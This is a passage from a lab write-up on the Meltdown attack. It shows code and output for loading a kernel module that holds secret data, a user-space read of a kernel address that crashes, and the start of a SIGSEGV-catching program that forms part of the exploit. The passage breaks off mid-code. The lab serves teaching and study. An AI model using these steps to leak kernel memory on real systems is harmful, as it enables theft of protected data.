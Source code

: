 Compile and insert the module:

```shell
$ make
$ sudo insmod MeltdownKernel.ko
$ dmesg | grep ’secret data address’
[106656.713553] secret data address:fb7c2000
```

### 4.2. Access Kernel Memory from User Space

Try to read the address we get from last task.

```c
$ seed@VM:~/.../Meltdown_Attack$ cat test.c 
#include <stdio.h>

int main(int argc, char const *argv[])
{
	char*kernel_data_addr = (char*)0xfb7c2000;
	char kernel_data =*kernel_data_addr;
	printf("I have reached here.\n");

	return 0;
}
$ seed@VM:~/.../Meltdown_Attack$ ./test 
Segmentation fault
```

User-level can not access the address in the kernel-space, will cause crash.

### 4.3. Task5: Handle Error/Exceptions in C

Accessing prohibited memory location will raise a SIGSEGV signal; ifa program does not handle this exception by itself, the operating system will handle it and terminate theprogram.  

Several ways can be used to prevent programs from crashing by a catastrophic event. One way is to define our own signal handler in the program to capture the exceptions raised by catastrophic events.

Although C does not provide direct support for error handling (or exception handling), such as try/catch clause. However, we can emulate the try/catch clause using `sigsetjmp()` and `siglongjmp()`.

```c
$ cat ExceptionHandling.c
static sigjmp_buf jbuf;
static void catch_segv(){
  // Roll back to the checkpoint set by sigsetjmp().
  siglongjmp(jbuf, 1);
}

int main(){
  // The address of our secret data
  unsigned long kernel_data_addr = 0xfb61b000;
  // Set up a signal handler: Register a signal handler. When a SIGSEGV signal is raised, the handler function catch_segv() will be invoked.
  signal(SIGSEGV, catch_segv);
  // Set up a checkpoint: after signal handler has finished processing the exception, it needs to let the program continue its execution from particular checkpoint. sigsetjmp(jbuf, 1) saves the stack context/environment in jbuf for later use by siglongjmp(); it returns o when the checkpoint is set up.
  // Roll back to a checkpoint: Whn siglongjmp(jbuf, 1) is called, the state saved in the jbuf variable is copied back in the processor and computation starts over from the return point of the sigsetjmp() function, but the returned value of the sigsetjmp() function is the second argument of the siglongjmp() function, which is 1 in our case. Therefore, after the exception handling, the program continues its execution from the else branch.
  if (sigsetjmp(jbuf, 1) == 0) {
    // Triggering the exception: A SIGSEGV signal will be raised due to the memory access violation.
```